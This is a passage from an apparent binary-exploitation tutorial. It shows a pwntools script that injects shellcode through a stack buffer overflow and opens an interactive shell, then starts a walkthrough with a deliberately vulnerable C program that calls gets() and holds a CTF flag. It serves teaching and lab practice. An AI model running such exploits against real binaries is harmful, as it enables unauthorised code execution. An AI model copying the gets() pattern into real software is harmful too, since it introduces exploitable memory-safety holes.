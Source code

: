 ```python
        mov rsi, rsp
        mov al, 59
        syscall
    """)
    
    return shellcode

def exploit_with_shellcode(binary_path, offset, return_address):
    """Exploit using shellcode injection"""
    p = process(binary_path)
    
    # Create shellcode
    shellcode = create_shellcode()
    log.info(f"Shellcode length: {len(shellcode)} bytes")
    
    # Create payload
    # This assumes we can put shellcode in the buffer and jump to it
    payload = shellcode
    payload += b'A' * (offset - len(shellcode))
    payload += p64(return_address)  # Address of our shellcode
    
    # Send payload
    p.sendline(payload)
    p.interactive()

# Note: This template requires NX bit to be disabled
# Use checksec to verify: checksec --file=binary_name
```

*[Screenshot placeholder: Successful shellcode execution showing shell prompt]*

---

## Putting It All Together: A Full Walkthrough

Let's walk through a complete example, from writing a vulnerable program to exploiting it. This exercise combines everything we've learned so far.

### Step 1: The Vulnerable Program

Save the following code as `vulnerable.c`. It contains a classic stack buffer overflow vulnerability in the `vulnerable_function` and a `win` function that we want to execute.

```c
// File: vulnerable.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    printf("Congratulations! You've successfully exploited the buffer overflow!\n");
    printf("Here is your flag: flag{b4s1c_buff3r_0v3rfl0w_w1n}\n");
    fflush(stdout);
}

void vulnerable_function() {
    char buffer[40];
    printf("Enter your name: ");
    fflush(stdout);
    gets(buffer); // Vulnerable function! No bounds checking.
    printf("Hello, %s\n", buffer);
    fflush(stdout);
}

```